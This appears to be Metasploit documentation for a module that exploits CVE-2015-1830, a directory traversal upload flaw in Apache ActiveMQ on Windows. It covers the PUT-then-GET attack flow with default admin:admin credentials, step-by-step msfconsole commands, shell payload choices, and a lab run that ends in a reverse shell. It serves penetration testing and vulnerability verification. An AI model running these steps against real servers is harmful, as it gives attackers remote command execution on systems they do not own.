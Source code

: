 ## Introduction

A directory traversal vulnerability was discovered in the fileserver upload/download functionality for blob messages in Apache ActiveMQ 5.x before 5.11.2 for Windows. The vulnerability, tracked as CVE-2015-1830, allows remote attackers to create JSP files in arbitrary directories via unspecified vectors.

Because vulnerable servers allow for directory traversal, they will accept HTTP PUT requests for `/fileserver/..\\admin\\` and process these as requests for `/admin/`. For the PUT request to succeed, credentials need to be provided.

This module exploits CVE-2015-1830 by attempting to upload a JSP payload to a target via an HTTP PUT requests for `/fileserver/..\\admin\\` using the default credentials `admin:admin` (or any other credentials provided by the user). It then issues an HTTP GET request to `/admin/<payload>.jsp` on the target in order to trigger the payload and obtain a shell. The module has been succesfully tested against ActiveMQ 5.11.1 on a Windows 7 machine.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/windows/http/apache_activemq_traversal_upload`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options

1.  `PASSWORD`. The default setting is `admin`.
2.  `PATH`. This option is the traversal path. `/fileserver/..\admin\` by default.
3.  `Proxies`. This option is not set by default.
4.  `RHOSTS`. To use: `set RHOSTS [IP]`
5.  `RPORT`. The default setting is `8161`. To use: `set RPORT [PORT]`
6.  `SSL`. The default setting is `false`.
7.  `THREADS`. The default setting is `1`.
8.  `USERNAME`. The default setting is `admin`.
9.  `VHOST`. This option is not set by default.
10. `TARGETURI`. This option is the base path. `/` by default.

## Compatible Payloads

0. `generic/custom`
1. `generic/shell_bind_tcp`
2. `generic/shell_reverse_tcp`
3. `java/jsp_shell_bind_tcp`
4. `java/jsp_shell_reverse_tcp`

## Payload Options
1. `LHOST`. To use: `set LHOST [IP]`
2. `LPORT`. The default setting is `4444`. To use: `set LPORT [PORT]`
3. `SHELL`. This option is not set by default.

## Scenarios

```
msf5 exploit(windows/http/apache_activemq_traversal_upload) > show options

Module options (exploit/windows/http/apache_activemq_traversal_upload):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   admin                  yes       Password to authenticate with
   PATH       /fileserver/..\admin\  yes       Traversal path
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.2            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8161                   yes       The target port (TCP)
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                      yes       The base path to the web application
   USERNAME   admin                  yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


msf5 exploit(windows/http/apache_activemq_traversal_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.1:4444 
[*] Uploading payload...
[*] Payload sent. Attempting to execute the payload.
[*] Payload executed!
[*] Command shell session 1 opened (192.168.1.1:4444 -> 192.168.1.2:49194) at 2020-02-04 10:55:36 +0100

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop\activemq 5.11.1\apache-activemq-5.11.1\bin\win64>
```

## References

1. <https://www.cvedetails.com/cve/CVE-2015-1830/>
2. <https://activemq.apache.org/security-advisories.data/CVE-2015-1830-announcement.txt>
